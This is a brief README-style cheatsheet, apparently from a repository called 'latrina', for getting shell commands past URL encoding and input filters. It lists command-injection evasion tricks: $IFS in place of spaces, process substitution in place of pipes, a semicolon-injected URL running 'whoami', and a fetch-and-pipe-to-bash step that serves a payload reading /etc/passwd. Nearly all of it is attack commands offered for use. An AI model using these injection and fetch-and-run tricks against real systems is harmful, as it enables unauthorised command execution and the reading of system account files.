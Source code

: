 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
### setting string variables without quotes    
`variable=('a')`  
### separating fields without spaces 
`echo$IFS$a`
### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
### redirecting to a hidden exploit (localhost/bin/bash)
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`
`curl -s http://localhost/$0 | bash`

